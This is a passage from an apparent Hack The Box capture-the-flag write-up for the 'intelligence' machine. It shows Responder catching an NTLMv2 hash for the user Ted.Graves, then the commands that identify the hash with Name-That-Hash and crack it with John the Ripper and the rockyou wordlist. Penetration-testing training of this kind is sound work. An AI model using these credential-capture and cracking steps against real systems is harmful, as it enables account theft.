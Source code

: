 ```text
    Responder NIC              [tun0]
    Responder IP               [10.10.14.251]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
[+] Current Session Variables:
    Responder Machine Name     [WIN-ZQMKCOX922L]
    Responder Domain Name      [45TT.LOCAL]
    Responder DCE-RPC Port     [49138]

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.

[+] Listening for events...                          
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

## Hash Cracking

After a few minutes we've captured Ted.Graves password hash. We can use JohnTheRipper to try and crack it:

```test
┌──(root💀kali)-[~/htb/intelligence]
└─# nth --file hash.txt 
  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|
https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 

Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

Most Likely 
NetNTLMv2, HC: 5600 JtR: netntlmv2

┌──(root💀kali)-[~/htb/intelligence]
└─# john hash.txt -format=netntlmv2 -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>        (Ted.Graves)
1g 0:00:00:05 DONE (2021-10-07 22:19) 0.1941g/s 2100Kp/s 2100Kc/s 2100KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
